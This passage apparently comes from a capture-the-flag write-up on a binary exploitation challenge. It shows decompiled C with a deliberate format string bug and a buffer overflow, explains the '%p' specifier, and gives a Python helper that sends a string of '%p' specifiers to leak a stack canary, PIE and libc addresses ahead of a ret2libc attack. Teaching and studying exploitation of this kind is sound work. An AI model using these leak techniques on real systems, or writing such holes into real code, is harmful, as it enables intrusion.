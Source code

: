 ```c
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  printf("\n[*] Use the \'%%p\' format specifier to leak addresses on the stack.");
  printf("\n[*] Find a \'libc address\', a \'PIE address\' and \'Canary\'.");
  printf(
        "\n[*] Overflow the buffer and SFP, place the correct \'Canary\' value and overwrite the\'Return address\' to perform a \'ret2libc\' attack."
        );
  printf("\n\n[*] Format string bug:\n> ");
  read(0,local_118,0xff);
  printf((char *)local_118);
  printf("\n[*] Overflow:\n> ");
  read(0,local_158,0x1000);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Both bugs are visible here:
* `Format string`: `printf((char *)local_118);`
* `Overflow`: `read(0,local_158,0x1000);`

More about format string can be found [here](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

From the `man 3` page of `printf`:

```console
SYNOPSIS
#include <stdio.h>

int printf(const char *format, ...);


p      The void * pointer argument is printed in hexadecimal (as if by %#x or %#lx).
```

Means that if `printf` takes as format the `%p` specifier, it will print the void pointer of the argument. When it does not have an address to print, it will go to print addresses from the stack. This way, we can leak many things. I have created a function that will print potential `libc`, `PIE` addresses and `Canary` valus.

```python
def leaks(r):
  r.sendlineafter(b">", "%p "*100)
  values = r.recvline().split()
  counter = 1
  print("\n")
  for i in values:
    if len(i) > 16 and i.endswith(b"00"):
      print(f"[*] Possible Canary:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x5")):
      print(f"[*] Possible PIE address:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x7f")):
      print(f"[*] Possible LIBC address:\nIndex: {counter} -> {i.decode()}\n")
    counter += 1
```
